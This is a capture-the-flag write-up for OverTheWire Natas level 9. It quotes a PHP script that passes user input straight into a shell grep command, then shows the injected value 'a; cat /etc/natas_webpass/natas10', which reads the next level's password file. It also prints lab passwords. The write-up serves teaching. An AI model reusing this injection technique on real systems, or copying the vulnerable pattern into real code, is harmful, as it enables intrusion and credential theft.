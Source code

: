 # Natas Level 9

```bash
Username: natas9
Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
URL:      http://natas9.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas9.png" />
    <div align="center">Natas 9</div>
</figure>

Clicking on the "View sourcecode" link:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas9-view-sourcecode.png" />
    <div align="center">Natas 9 - View sourcecode</div>
</figure>

Lets investigate the script.
```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```
If the value sent isn't empty (the name of the input box is "needle"), it's using [passthru](http://php.net/manual/en/function.passthru.php) to find this value in the dictionary file, and sending back the results.

For [example](http://natas9.natas.labs.overthewire.org/?needle=a&amp;submit=Search) (if we send the value "a"):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas9-example.png" />
    <div align="center">Natas 9 - Example</div>
</figure>

We can inject some code, for example: "a; cat /etc/natas_webpass/natas10".

This will result in the following [command](http://natas9.natas.labs.overthewire.org/?needle=a%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas10&amp;submit=Search):
```bash
grep -i a; cat /etc/natas_webpass/natas10 dictionary.txt
```

This will print the password (from /etc/natas_webpass/natas10) and the entire dictionary file:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas9-code-injection.png" />
    <div align="center">Natas 9 - Code injection</div>
</figure>

We got the password for the next level: **nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**